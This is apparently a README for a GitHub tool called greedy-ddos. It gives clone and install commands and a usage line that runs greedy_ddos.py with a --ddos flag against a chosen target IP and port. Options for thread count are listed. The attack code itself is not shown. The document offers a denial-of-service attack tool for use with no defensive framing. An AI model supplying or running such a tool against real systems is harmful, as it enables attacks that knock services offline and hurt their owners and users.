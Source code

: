 # set-up

```
git clone https://github.com/greedswaka/greedy-ddos.git
cd greedy-ddos
pip install -r requirements.txt
```

# How to use.

```bash
python3 greedy_ddos.py --ddos -ip 192.168.0.1 -port 80
```

> -ip  - is target ip
>
> -port - is targeted port
>
> -th - threads count (optional) 
